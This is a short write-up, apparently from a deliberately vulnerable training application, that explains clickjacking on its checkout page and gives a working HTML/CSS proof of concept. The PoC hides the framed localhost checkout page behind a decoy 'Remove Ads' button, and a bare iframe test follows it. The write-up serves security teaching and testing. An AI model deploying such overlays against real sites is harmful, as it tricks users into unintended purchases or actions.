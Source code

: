 # Clickjacking
This attack tricks users into clicking on a button, link, or other interactable on an attacker controlled/compromised website that performs an unintendded action on an authenticated and/or trusted site.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _Entire Application_

Clickjacking is present since the X-Frame-Options / Content-Security-Policy: frame-ancestors directive are both not properly implemented on the application.  For exploitation a more intricately designed website can be made to simulate a realistic attacker website meant to scam users authenticated to vulnerablecandle, the attack can be tested through this example HTML text:

    # HTML
    <button style="z-index: 2; position: absolute; margin-left: 100px; margin-top: 30px;" class="button"> Remove Ads</button>
    <div style="overflow: hidden; margin: 15px auto; max-width: 50px;">
        <iframe scrolling="no" src="http://localhost:4200/checkout" style="z-index: 1; position: absolute; border: 0px none; margin-left: -650px; height: 200px; margin-top: -100px; width: 200px;"></iframe>
    </div>

    # CSS
    .button {
    background-color: #4CAF50;
    border: none;
    color: white;
    padding: 32px 32px;
    text-align: center;
    text-decoration: none;
    display: block;
    font-size: 16px;
    margin: 4px 2px;
    cursor: pointer;
    }

For the sake of simplcity the recommended way to test for Clickjacking is simply testing an iframe like below:

    <html>
        <body>
            <iframe src="http://localhost:4200/checkout"></iframe>
        </body>
    </html>
    
